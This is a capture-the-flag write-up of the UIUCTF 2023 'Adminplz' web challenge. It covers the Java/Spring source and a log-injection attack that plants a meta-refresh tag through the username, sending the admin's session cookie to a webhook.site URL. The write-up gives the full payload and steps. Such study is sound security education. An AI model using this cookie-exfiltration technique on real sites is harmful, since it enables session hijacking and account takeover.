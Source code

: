 # Adminplz (UIUCTF 2023)

**Challenge category**: Web<br>
**Challenge description**: "your daily dose of ☕"<br>
**Challenge points**: 322<br>
**CTF date**: sab, 01 Lug. 2023, 00:00 UTC — lun, 03 Lug. 2023, 00:00 UTC<br>

## Context

This challenge is about a Log Injection that leads to exfiltration of cookies.

## Exploring the challenge

![1](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/5ab67534-cd47-4328-bd60-73ab33e3e6d0)

![4](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/d673a902-6b96-49e5-97e5-8c8689e861cd)


![2](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/be43b485-a783-4e69-90d9-553995228101)

The only thing we can do on this page is logging in and submitting an url to the admin bot. If we access to the <code>/admin</code> endpoint, we'll get an error:

![3](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/e5169f48-6c01-4e8a-9ee9-ec89a89ce823)

Let's have a look at the Java code.
```javascript
const { chromium } = require('playwright-chromium');
const URL = process.argv[2];

(async () => {
    console.log('running admin bot...')
    const browser = await chromium.launch()
    const context = await browser.newContext()
    context.setDefaultTimeout(2000)
    const page = await context.newPage()
    await page.goto('http://127.0.0.1:8080/')

    // login
    await page.type('input[name=username]', 'admin')
    await page.type('input[name=password]', process.env.ADMIN_PASSWORD)
    await Promise.all([
      page.click('input[type=submit]'),
      page.waitForNavigation({
        waitUntil: 'networkidle0',
      }),
    ]);
    // visit url
    console.log("visiting target...");
    await page.goto(URL);
    await page.waitForTimeout(900000); // 15 min
    await browser.close()
    console.log('Success!')
})();
```
For the bot, server is at 127.0.0.1 on port 8080. It logs to the server and then visit the submitted url.
```java
@Component
public class CSP implements Filter {
    @Override
    public void doFilter(ServletRequest request,
                         ServletResponse response,
                         FilterChain chain) throws ServletException, IOException {
        ((HttpServletResponse) response).addHeader("Content-Security-Policy", "default-src 'none';");
        chain.doFilter(request, response);
    }
}

```
CSP is set to <code>default-src 'none'</code>. A very strict policy that prevents any external resource to be loaded and any script to be executed, thus no XSS.
```java
@PostMapping(path = "/login", consumes = {MediaType.APPLICATION_FORM_URLENCODED_VALUE})
    public String login(HttpSession session, User user) {
        if (user.getUsername().equals("admin") && !user.getPassword().equals(ADMIN_PASSWORD)) {
            return "not allowed";
        }
        session.setAttribute("user", user);
        return "logged in";
    }
```
We can't login as admin as we don't know the password, but we can login as any user, our username will be set accordingly (password isn't check).
```java
@GetMapping("/admin")
    public Resource admin(HttpServletRequest req, HttpSession session, @RequestParam String view) {
        if (isLoggedIn(session) && view.contains("flag")) {
            logger.warn("user {} [{}] attempted to access restricted view", ((User) session.getAttribute("user")).getUsername(), session.getId());
        }
        return app.getResource(isAdmin(req, session) ? view : "error.html");
    }
```
Here, two things: our username could be written inside a log (<code>/var/log/adminplz/latest.log</code>) without any sanitizing process and 
a resource specified by a user controllable GET parameter (<code>view</code>) is returned to the admin (if the endpoint is accessed by the admin).
<code>accessResource()</code> method accepts file names and urls (of any protocol).<br>
There is no possibility for an XSS, nor a possibility to inject anything on any page. The only file where we can inject something, if we are logged and 
the <code>view</code> parameter contains the "flag" substring, is <code>/var/log/adminplz/latest.log</code>. This file can be rendered as HTML by the bot's browser.
Submitting an url like <code>http://127.0.0.1:8080/admin?view=file:///var/log/adminplz/latest.log</code> will induce the admin bot to view the log file as an HTML page.
But, what we can do? We can't trigger XSS nor load any external resource. We can't get the /flag.html content. Can we steal cookies even without XSS? Yes.
If we look at the code above (the admin one), we can that not only the username is injected inside the log, but the session ID too. So, if admin visits a url 
like <code>http://127.0.0.1:8080/admin?view=file:///flag.html</code>, its session ID (authentication cookie) is written into the log. If we can exfiltrate this, 
we can authenticate us as admin to the server. In the log there is only text, but we can inject, through the username, HTML code.
How can we exfiltrate the admin cookie with a very strict CSP policy? With a <code>meta</code> tag that redirects the client to an URL that 
incorporate part of the log's content (admin's cookie included):
```html
<html><head><meta http-equiv="refresh" content='0; url=https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b?exf=

...Log's content...

'></head>....
```

## Attack
Steps:
+ Login with username <code><html><head><meta http-equiv="refresh" content='0; url=https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b?exf=</code>.
+ Visit <code>https://instance_server/admin?view=file:///flag.html</code> (it's important that the <code>view</code> parameter contains a valid path (existent file),
because otherwise an error will be triggered and the log's content resetted, deleting our previous input).
+ Submit the url <code>https://127.0.0.1:8080/admin?view=file:///flag.html</code> to the admin bot.
+ Login with username <code><html>'></head></code>.
+ Visit <code>https://instance_server/admin?view=file:///flag.html</code>.
+ Submit the url <code>http://127.0.0.1:8080/admin?view=file:///var/log/adminplz/latest.log</code> to the admin bot.

After executing these steps, our server will receive a GET request with all the exfiltrated content inside a query parameter.

![adminplz_cookie](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/de9a0540-c05e-4747-9917-06997257a46a)


Got admin's session ID!
Now we have to use this cookie when accessing the <code>/admin</code> endpoint. In order to access the flag file we have to set the <code>view</code>
parameter to <code>file:///flag.html.</code>, so: <code>https://instance_server/admin?view=file:///flag.html</code>. By Visiting this link we'll get the flag!

![adminplz_flag](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/888aa3a9-0937-4f36-b173-8a7777136c59)

Flag is <code>uiuctf{adminplz_c4n_1_h4v3_s0M3_co0k13s?_b5eab1cc61c26f07e63af7f8}</code>.

